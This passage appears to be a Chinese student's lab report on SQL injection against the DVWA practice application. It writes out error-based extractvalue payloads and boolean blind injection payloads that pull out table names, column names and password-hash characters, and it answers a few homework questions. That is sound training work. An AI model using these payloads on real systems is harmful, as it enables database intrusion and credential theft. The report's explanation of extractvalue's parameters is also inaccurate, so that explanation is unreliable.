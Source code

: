 爆字段数:1' and extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users' )))#
![image-20241026125924305](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026125924305.png)

用limit一个个爆字段名：1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 7,1 )))#，从0-7可以一个个爆出来

user_id，first_name，failed_login等

![image-20241026130055973](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026130055973.png)

查询密码位数：1' and extractvalue(1,concat(0x7e,(select length(password) from users where user_id='1' )))#
![image-20241026144120397](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026144120397.png)

查询密码最后一位数：1' and extractvalue(1,concat(0x7e,(select substr(password,32,1) from users where user_id='1' )))#
![image-20241026144410816](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026144410816.png)

##### 5.在后端使用报错注入实现“dvwa数据库-user表-字段”的注入过程

判断报错注入：select first_name,last_name from users where user_id='1' and extractvalue(1,0x7e);

爆库名：select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,database()));

爆表数：select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema='dvwa')));

爆表名：select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='dvwa' limit 0,1)));
select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='dvwa' limit 1,1)));

爆字段数：select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')));

爆字段名（一个个爆出来）：select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 0,1)));

![image-20241026150525005](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026150525005.png)
（1）在extractvalue函数中，为什么'~'写在参数1的位置不报错，而写在参数2的位置报错？

因为参数1处是文件名，文件名可以是~，而参数2是文件路径，文件路径不会含~
（2）报错注入中，为什么要突破单引号的限制，如何突破？

不突破限制就只会把整个语句当成字符串识别，不会执行查询语句，在1后加'，在末尾加#可以突破限制

（3)在报错注入过程中，为什么要进行报错，是哪种类型的报错？

报错是显示语句不符合语法的报错，通过回显的报错可以查询我们需要的信息

##### 6、使用布尔盲注在前端实现“库名-表名-列名”的注入过程

爆库名长度：1‘ and length(database())>5#
![image-20241026220958711](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026220958711.png)
1‘ and length(database())>3#
![image-20241026221050333](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026221050333.png)
